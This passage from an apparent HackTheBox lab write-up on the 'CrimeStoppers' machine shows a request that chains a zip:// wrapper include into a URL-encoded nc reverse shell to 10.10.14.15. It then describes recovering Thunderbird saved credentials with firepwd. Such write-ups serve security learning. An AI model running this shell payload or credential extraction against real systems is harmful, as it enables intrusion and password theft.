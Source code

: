 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2015.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2015.png)

- Popping a shell :

```php
http://10.10.10.80/?op=zip://uploads/10.10.14.15/cda3c3712e5777e3808d81691561a1e481da0e7a%23enox&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7C%2Fbin%2Fnc%2010.10.14.15%201234%20%3E%2Ftmp%2Ff
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2016.png)

---

## Privilege Escalation to dom [ thunderbird ]

⇒ So we find thunderbird folder in user dom home folder. In which we find key3.db and login.json from which we can retrieve credentials using firepwd tool :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/CrimeStoppers%20Box%2031351b80735e419a95a22aa07f981611/Untitled%2017.png)

